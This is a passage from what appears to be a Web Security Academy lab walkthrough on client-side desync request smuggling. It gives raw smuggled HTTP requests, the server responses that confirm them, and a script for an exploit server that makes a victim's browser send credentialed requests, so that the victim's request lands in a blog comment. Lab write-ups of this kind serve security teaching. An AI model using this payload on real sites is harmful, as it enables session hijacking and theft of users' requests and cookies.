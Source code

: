     POST /en/post/comment HTTP/1.1
    Host: 0a37000703f2bff38244386600f8001e.h1-web-security-academy.net
    Cookie: session=Ki1OUL0PWNSPstkSBha0kyrJJFaIFnO9;
    Content-Length: 800
    Content-Type: application/x-www-form-urlencoded

    csrf=aZWOe0vSwtmozANjrR1kjf0U8lKqJfnc&postId=4&name=pu&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=

    GET /en HTTP/1.1
    Host: 0a37000703f2bff38244386600f8001e.h1-web-security-academy.net
    Connection: keep-alive

Notice the response:

    HTTP/1.1 302 Found
    Location: /en/post/comment/confirmation?postId=4
    X-Frame-Options: SAMEORIGIN
    Keep-Alive: timeout=10
    Content-Length: 0

    HTTP/1.1 400 Bad Request
    Content-Type: application/json; charset=utf-8
    X-Content-Type-Options: nosniff
    Connection: close
    Content-Length: 27

    {"error":"Invalid request"}

This means we have successfully smuggled the `POST /en/post/comment HTTP/1.1` request. Now at the exploit server, copy this to the body:

    <script>
        let smuggled_request = [
            "POST /en/post/comment HTTP/1.1",
            "Host: 0a37000703f2bff38244386600f8001e.h1-web-security-academy.net",
            "Cookie: session=Ki1OUL0PWNSPstkSBha0kyrJJFaIFnO9;",
            "Content-Length: 800",
            "Content-Type: application/x-www-form-urlencoded",
            "Connection: keep-alive",
            "",
            "csrf=aZWOe0vSwtmozANjrR1kjf0U8lKqJfnc&postId=5&name=pu&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=",
        ].join("\r\n");

        fetch("https://0a37000703f2bff38244386600f8001e.h1-web-security-academy.net/", {
            method: "POST",
            body: smuggled_request,
            credentials: "include",
            mode: "cors", // ensure we don't follow redirects and the catch block is excuted
        }).catch(() => {
            fetch(
                "https://0a37000703f2bff38244386600f8001e.h1-web-security-academy.net/en",
                {
                method: "GET",
                credentials: "include",
                mode: "no-cors",
                }
            );
        });
    </script>
